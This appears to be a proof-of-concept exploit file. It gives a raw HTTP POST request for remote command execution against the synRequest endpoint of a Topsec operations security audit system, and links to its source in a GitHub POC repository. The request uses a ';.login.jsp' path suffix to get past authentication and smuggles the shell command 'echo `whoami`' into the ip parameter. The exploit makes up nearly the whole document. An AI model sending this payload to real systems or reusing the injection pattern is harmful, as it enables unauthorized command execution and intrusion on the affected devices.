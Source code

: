 # topsag_synRequest_rce

```
POST /iam/synRequest.do;.login.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

method=trace_route&w=1&ip=127.0.0.1|echo%20`whoami`%3b&m=10
```

from: https://github.com/wy876/POC/blob/main/%E5%A4%A9%E8%9E%8D%E4%BF%A1/%E5%A4%A9%E8%9E%8D%E4%BF%A1%E8%BF%90%E7%BB%B4%E5%AE%89%E5%85%A8%E5%AE%A1%E8%AE%A1%E7%B3%BB%E7%BB%9FsynRequest%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
